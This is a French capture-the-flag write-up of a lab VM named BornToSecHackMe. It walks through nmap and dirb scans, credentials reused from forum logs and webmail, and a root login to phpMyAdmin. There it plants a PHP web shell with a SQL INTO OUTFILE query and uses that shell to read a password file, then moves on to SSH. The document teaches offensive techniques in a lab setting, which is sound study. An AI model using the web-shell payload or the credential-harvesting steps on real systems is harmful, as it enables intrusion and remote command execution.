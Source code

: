 # Branch #0

## Reconnaissance

Nous commencons par scanner les ports ouverts de la VM avec `nmap`.

```
$ nmap -p- 192.168.56.101
...
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
80/tcp  open  http
143/tcp open  imap
443/tcp open  https
993/tcp open  imaps
...
```

Il existe un service **HTTP** et **HTTPS**.

En nous rendant sur l'URL `http://192.168.56.101`, nous constatons la presence d'une page web tres simpliste. La page ne presente aucune surface d'attaque.

Nous utilisons `DirBuster` pour bruteforce les URLs disponible.

```
$ dirb http://192.168.56.101
...
URL FOUND: 4
...

$ dirb https://192.168.56.101
...
---- Scanning URL: https://192.168.56.101/ ----
+ https://192.168.56.101/cgi-bin/ (CODE:403|SIZE:291)
==> DIRECTORY: https://192.168.56.101/forum/
==> DIRECTORY: https://192.168.56.101/phpmyadmin/
+ https://192.168.56.101/server-status (CODE:403|SIZE:296)
==> DIRECTORY: https://192.168.56.101/webmail/
...
URL FOUND: 36
...
```

## Forum

En navigant sur le forum, nous remarquons un thread intitule **Probleme login ?** comportant des logs de connexion.

```
...

Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Failed password for invalid user !q\]Ej?*5K5cy*AJ from 161.202.39.38 port 57764 ssh2

Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Received disconnect from 161.202.39.38: 3: com.jcraft.jsch.JSchException: Auth fail [preauth]

Oct 5 08:46:01 BornToSecHackMe CRON[7549]: pam_unix(cron:session): session opened for user lmezard by (uid=1040)

...
```

L'extrait presente ci-dessus montre une erreur de connexion, suivi d'un connexion reussie.

Il pourrait s'agir d'une faute de parcours d'un utilisateur qui a d'abord saisi son mot de passe dans le champ `login` et a essuye un echec avant de s'y reprendre.

Nous avons donc les identifiants suivants:

`lmezard : !q\]Ej?*5K5cy*AJ`

Nous pouvons donc utilise ces identifiants pour etablir un connexion sur le forum en tant que **lmezard**.

En accedant a la page de profil de l'utilisateur, nous obtenons le mail:

`laurie@borntosec.net`

Nous pouvons desormais nous connecter a SquirrelMail via l'URL `https://192.168.56.101/webmail/` grace aux identifiants suivants:

`laurie@borntosec.net : !q\]Ej?*5K5cy*AJ`

## WebMail

Deux mails se trouvent dans la boite de reception de Laurie.

L'un des deux se nomme **DB Access** et contient le message suivant:

```
Hey Laurie,

You cant connect to the databases now. Use root/Fg-'kKXBj87E:aJ$

Best regards.
```

Nous pouvons desormais nous connecter a PhpMyAdmin via l'URL `https://192.168.56.101/phpmyadmin/` grace aux identifiants suivants:

`root : Fg-'kKXBj87E:aJ$`

## PhpMyAdmin

Nous allons nous rendre sur l'onglet `SQL` pour injecter une porte derobee dans le serveur.

```
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/forum/templates_c/backdoor.php"
```

Ainsi, en nous rendant sur l'URL `https://192.168.56.101/forum/templates_c/backdoor.php` nous pouvons saisir des commandes shell dans le navigateur, en les passant dans le parametre 'cmd'.

```
https://192.168.56.101/forum/templates_c/backdoor.php?cmd=cat%20/home/LOOKATME/password

lmezard:G!@M6f4Eatau{sF"
```

Nous obtenons les identifiants suivants:

`lmezard : G!@M6f4Eatau{sF"`

## Connexion a la VM

Nous accedons a la VM (directement, pas en SSH) grace aux identifiants precedemment trouves.

_**NOTE:** Ces identifiants nous permettent egalement d'acceder au serveur ftp pour telecharger le binaire._

Une enigme avec un binaire nous attend pour la suite du jeu de piste.

```
password : .......wnage

les 7 autres lettres devant un return dans le fichier fun : p

t(23) I(86) e(371) r(406) a(429) h(490) p(617)

tIerahpwnage
hpeaIrwnage

I //6
h //38
e //57
a //116
r //369
t //522
p //737

Iheartpwnage
```

Nous finissons par trouver:
`Iheartpwnage`

Ce qui, une fois hashe en SHA256, nous donne:
`330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4`

## Connexion SSH

Nous etablissons la connexion SSH de la facon suivante:

`ssh laurie@192.168.56.101`

Avec le mot de passe:

`330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4`
